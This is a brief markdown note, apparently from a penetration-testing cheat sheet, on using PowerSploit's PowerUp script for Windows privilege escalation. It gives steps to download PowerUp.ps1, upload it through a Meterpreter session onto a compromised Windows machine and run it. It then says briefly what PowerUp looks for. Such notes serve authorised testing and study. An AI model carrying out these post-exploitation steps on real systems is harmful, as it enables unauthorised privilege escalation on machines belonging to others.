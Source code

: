 
## Command

```
#Get a Meterpreter Shell

#Download PowerUp
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

#Upload PowerUp on meterpreter (windows machine)
meterpreter > upload /FILE/PowerUp.ps1

#Run  the ps1 executable
. .\PowerUp.ps1
```


## What is PowerUp

PowerUp purpose is to evaluate a Windows machine and determine any abnormalities. It aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations. (VIA METERPRETER)
